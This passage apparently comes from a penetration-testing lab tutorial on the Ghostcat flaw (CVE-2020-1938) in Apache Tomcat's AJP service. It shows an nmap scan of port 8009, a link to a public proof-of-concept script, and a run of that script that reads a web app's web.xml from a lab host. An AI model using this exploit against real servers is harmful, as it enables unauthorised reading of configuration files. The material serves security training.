 ***

### CVE-2020-1938 : Ghostcat

Tomcat was found to be vulnerable to an unauthenticated LFI in a semi-recent discovery named [Ghostcat](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938). All Tomcat versions before 9.0.31, 8.5.51, and 7.0.100 were found vulnerable. This vulnerability was caused by a misconfiguration in the AJP protocol used by Tomcat. AJP stands for Apache Jserv Protocol, which is a binary protocol used to proxy requests. This is typically used in proxying requests to application servers behind the front-end web servers.

The AJP service is usually running at port 8009 on a Tomcat server. This can be checked with a targeted Nmap scan.

Attacking Tomcat

```shell-session
AIceBear@htb[/htb]$ nmap -sV -p 8009,8080 app-dev.inlanefreight.local

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-21 20:05 EDT
Nmap scan report for app-dev.inlanefreight.local (10.129.201.58)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 9.0.30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.36 seconds
```

The above scan confirms that ports 8080 and 8009 are open. The PoC code for the vulnerability can be found [here](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi). Download the script and save it locally. The exploit can only read files and folders within the web apps folder, which means that files like `/etc/passwd` can’t be accessed. Let’s attempt to access the web.xml.

Attacking Tomcat

```shell-session
AIceBear@htb[/htb]$ python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml 

Getting resource at ajp13://app-dev.inlanefreight.local:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">
```
